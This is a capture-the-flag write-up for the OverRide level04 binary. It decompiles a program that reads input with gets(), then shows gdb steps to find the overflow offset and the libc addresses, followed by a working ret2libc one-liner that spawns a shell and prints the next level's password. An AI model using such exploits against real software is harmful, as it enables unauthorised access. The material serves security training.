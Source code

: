 ## Step 1: Static & Dynamic Analysis

```c
int main(int argc, const char **argv, const char **envp)
{
  int wait_status;
  int i;
  int j;
  int k;
  char buffer[128];
  __pid_t pid;

  pid = fork();
  memset(buffer, 0, sizeof(buffer));
  k = 0;
  wait_status = 0;
  if ( pid )
  {
    do
    {
      wait(&wait_status);
      i = wait_status;
      if ( (wait_status & 0x7F) == 0 || (j = wait_status, (char)((wait_status & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");w
        return 0;
      }
      k = ptrace(PTRACE_PEEKUSER, pid, 44, 0);
    }
    while ( k != 11 );
    puts("no exec() for you");
    kill(pid, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(buffer);
  }
}
```

### Explanation
This program creates a child process using `fork()`.
The child process uses `get()` to fill a `buffer` without checking its size.
The vulnerability is found in the child process where `get()` fills `buffer` without checking the number of characters `get()` can accept.
This will enable us to make a buffer overflow and perform a `ret2libc` attack.
This attack consists in overriding the copy `eip` copy with the address of the function`system()` and pass the `/bin/sh` string as parameter in order to open a shell terminal.

First we are going to use gdb command:

```bash
(gdb) set follow-fork-mode child
```
to follow every events happening in the child process instead of the parent process.

Now we need to find the offset to override `eip` copy, we set a breakpoint just behind `get()` and look for the padding to reach `eip` copy.

```bash
(gdb) b *0x08048763
(gdb) r < <(python -c 'print("A" * 156 + "BBBBBBBBBBBB")')
Starting program: /home/users/level04/level04 < <(python -c 'print("A" * 156 + "BBBBBBBBBBBB")')
[New process 1801]
Give me some shellcode, k
[Switching to process 1801]
child is exiting...
Breakpoint 4, 0x08048763 in main ()
(gdb) x/4xw $ebp
0xffffd718:    0x41414141    0x42424242    0x42424242    0x42424242
```

Then we find the address of both functions `system()`, `exit()` and the string `/bin/sh` to perform the attack.

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find 0xf7e2c000, 0xf7ffe000, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

## Step 2: Exploiting the Binary

```bash
level04@OverRide:$ (python -c 'print ("A" * 156) + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]';cat) | ./level04
% cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```